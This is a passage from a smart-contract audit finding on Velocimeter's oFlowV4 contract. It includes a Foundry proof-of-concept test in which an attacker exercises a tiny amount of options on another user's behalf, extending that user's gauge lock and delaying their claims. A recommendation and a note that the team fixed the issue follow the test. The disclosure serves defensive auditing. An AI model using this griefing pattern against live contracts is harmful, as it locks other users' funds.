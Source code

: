 ```
        (uint256 underlyingReserve, uint256 paymentReserve) = IRouter(router).getReserves(address(FLOW), address(DAI), false);
        uint256 paymentAmountToAddLiquidity = (TOKEN_1 * paymentReserve) /  underlyingReserve;

        uint256 discountedPrice = oFlowV4.getLpDiscountedPrice(TOKEN_1,20);
        /// END Not revlevant
      
        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), TOKEN_100K);
        oFlowV4.exerciseLp(TOKEN_1 - 3, TOKEN_1 - 3, address(owner2),20,block.timestamp);
        vm.stopPrank();

        // Check end
        uint256 end = gauge.lockEnd(address(owner2));

        /// @audit Move towards unlock
        vm.warp(end - 1);

        /// @audit Attacker locks for owner2, cost is negligible
        vm.startPrank(address(attacker));
        FLOW.approve(address(oFlowV4), TOKEN_1);
        DAI.approve(address(oFlowV4), TOKEN_100K);
        oFlowV4.exerciseLp(3, 3, address(owner2),20,block.timestamp);
        vm.stopPrank();

        uint256 newEnd = gauge.lockEnd(address(owner2));
        /// @audit We delayed the claims with a cost of 3 oFLOW and 2 units of DAI
        assertGt(newEnd, end, "delayed");
    }
```

## Tool used

Manual Review

## Recommendation

We should not be able to exercise on behalf of someone else AND increase their locks

Whenever the recipient is someone else, the lock should not be increased, or alternatively you remove the functionality and only allow the recipient to exercise



## Discussion

**sherlock-admin2**

The protocol team fixed this issue in the following PRs/commits:
https://github.com/Velocimeter/v4-contracts/pull/9


**sherlock-admin2**
